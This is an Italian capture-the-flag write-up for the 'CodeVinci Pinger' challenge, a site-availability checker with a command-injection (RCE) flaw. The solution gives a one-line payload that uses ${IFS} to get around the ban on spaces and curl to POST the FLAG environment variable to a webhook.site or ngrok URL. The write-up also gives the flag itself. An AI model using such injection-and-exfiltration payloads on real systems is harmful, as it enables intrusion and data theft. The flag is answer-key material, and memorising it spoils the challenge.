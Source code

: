 # CodeVinci Pinger
## Introduzione
Ho creato questo sito per vedere se un sito è online, mi raccomando, negli url non sono ammessi gli spazi!
## Vulnerabilità 
RCE
## Risoluzione
La challenge permette di inserire un input che verrà poi fatto eseguire da una shell linux, non essendoci un output dovremo quindi inviarci il risultato del comando tramite `curl` o `wget`:

solve:
`8.8.8.8;curl${IFS}-s${IFS}-X${IFS}POST${IFS}--data${IFS}"$FLAG"${IFS}"<url di webhook.sit | url di ngrok>"`
## Flag
`CodeVinciCTF{4lw4ys_ch3ck_inputs}`
## Autore
@gioppy.
